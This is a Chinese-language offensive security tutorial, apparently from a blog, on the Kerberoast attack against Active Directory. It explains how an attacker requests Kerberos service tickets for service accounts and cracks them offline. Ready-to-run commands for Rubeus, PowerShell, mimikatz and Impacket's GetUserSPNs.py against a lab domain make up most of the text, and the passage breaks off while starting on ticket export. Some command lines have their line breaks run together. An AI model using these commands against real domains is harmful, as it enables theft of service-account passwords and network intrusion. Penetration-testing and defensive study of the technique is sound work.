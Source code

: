 ### 1.Kerberoast 攻击

Kerberoast 攻击过程：  
1. 攻击者对一个域进行身份验证，然后从域控制器获得一个 TGT 认购权证 ，该 TGT 认购权证用于以后的 ST 服务票据请求  
2. 攻击者使用他们的 TGT 认购权证 发出 ST 服务票据请求 (TGS-REQ) 获取特定形式（name/host）的 servicePrincipalName (SPN)。例如：MSSqlSvc/SQL.domain.com。此 SPN 在域中应该是唯一的，并且在用户或计算机帐户的 servicePrincipalName 字段中注册。在服务票证请求(TGS-REQ) 过程中，攻击者可以指定它们支持的 Kerberos 加密类型(RC4_HMAC，AES256_CTS_HMAC_SHA1_96 等等)。  
3. 如果攻击者的 TGT 是有效的，则 DC 将从 TGT 认购权证 中提取信息并填充到 ST 服务票据中。然后，域控制器查找哪个帐户在 ServicedPrincipalName 字段中注册了所请求的 SPN。ST 服务票据使用注册了所要求的 SPN 的帐户的 NTLM 哈希进行加密, 并使用攻击者和服务帐户共同商定的加密算法。ST 服务票据以服务票据回复 (TGS-REP) 的形式发送回攻击者。  
4. 攻击者从 TGS-REP 中提取加密的服务票证。由于服务票证是用链接到请求 SPN 的帐户的哈希加密的，所以攻击者可以离线破解这个加密块，恢复帐户的明文密码。  
**首先是请求服务票据**  
1.Rubeus.exe 请求

```
Rubeus.exe kerberoast
```

Rubeus 里面的 kerberoast 支持对所有用户或者特定用户执行 kerberoasting 操作，其原理在于先用 LDAP 查询于内的 spn，再通过发送 TGS 包，然后直接打印出能使用 hashcat 或 john 爆破的 Hash。 以下的命令会打印出注册于用户下的所有 SPN 的服务票据的 hashcat 格式。  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIJuL3iceuFOicVnTsCrFvDS8sOYcGPSkTOfX7eywSsLiaH7RibwEPq4lIlg/640?wx_fmt=png)

  
2.powershell 请求

```
#请求服务票据Add-Type -AssemblyName System.IdentityModelNew-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-0day.0day.org:1433"#列出服务票据klist
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIEZRbY645KGns0gG3gfibqrMMb6iaBpamCs7WG1NL1v3uicj8kOQFvEYow/640?wx_fmt=jpeg)

3.mimikatz 请求  
请求指定 SPN 的服务票据

```
#请求服务票据kerberos::ask /target:MSSQLSvc/Srv-DB-0day.0day.org:1433 #列出服务票据kerberos::list  #清除所有票据kerberos::purge
```

4.Impacket 中的 GetUserSPNS.py 请求  
该脚本可以请求注册于用户下的所有 SPN 的服务票据。使用该脚本需要提供域账号密码才能查询。该脚本直接输出 hashcat 格式的服务票据，可用 hashcat 直接爆破。

```
python3 GetUserSPNs.py -request -dc-ip 192.168.200.143 0day.org/jack
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIv0NLsRxUITRKCxlA1xia8xKHibZiaaWKiaibHVA3glTwFwtvU7nibWnE51cQ/640?wx_fmt=jpeg)

这里输入 jack 的密码  
**导出票据**  
首先是查看

```
klist或mimikatz.exe "kerberos::list" MSF里面load kiwikerberos_ticket_list或load kiwikiwi_cmd kerberos::list
```
